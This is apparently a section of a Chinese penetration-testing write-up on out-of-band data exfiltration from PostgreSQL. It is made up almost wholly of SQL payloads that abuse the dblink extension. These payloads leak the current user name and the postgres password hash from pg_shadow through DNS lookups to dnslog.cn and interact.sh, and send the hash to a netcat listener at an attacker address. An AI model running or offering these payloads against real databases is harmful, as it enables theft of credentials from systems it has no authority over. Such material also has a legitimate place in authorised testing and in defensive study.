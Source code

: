 # [0x05 PostgreSQL 带外数据](#toc_0x05-postgresql)

```bash
-- 开启 dblink 扩展
CREATE EXTENSION dblink

-- 获取当前数据库用户名称
SELECT * FROM dblink('host='||(select user)||'.djw0pg.dnslog.cn user=test dbname=test', 'SELECT version()') RETURNS (result TEXT);
```

[![21.png](assets/1710208076-85361254bc80e3de3fe0d922f6114dfb.png)](https://storage.tttang.com/media/attachment/2022/04/13/b147c57d-849d-43a3-8b1f-7f8842a98c2a.png)

```bash
-- 查询当前密码
SELECT * FROM dblink('host='||(SELECT passwd FROM pg_shadow WHERE usename='postgres')||'.c8jrsjp2vtc0000rwce0grjcc3oyyyyyb.interact.sh user=test dbname=test', 'SELECT version()') RETURNS (result TEXT);
```

[![34.png](assets/1710208076-5db0a601435aa8ec67ac72ba958ce5d0.png)](https://storage.tttang.com/media/attachment/2022/04/13/33b8e5bd-6bd9-4cac-8303-fb0e6c1cc4b2.png)

```bash
-- nc 监听
nc -lvv 4444

select dblink_connect((select 'hostaddr=x.x.x.x port=4445 user=test password=test sslmode=disable dbname='||(SELECT passwd FROM pg_shadow WHERE usename='postgres')));
```

[![35.png](assets/1710208076-06be7b5f2c368485a77b29d57f28a239.png)](https://storage.tttang.com/media/attachment/2022/04/13/0209275e-091e-4aa7-927b-58e2c9141826.png)
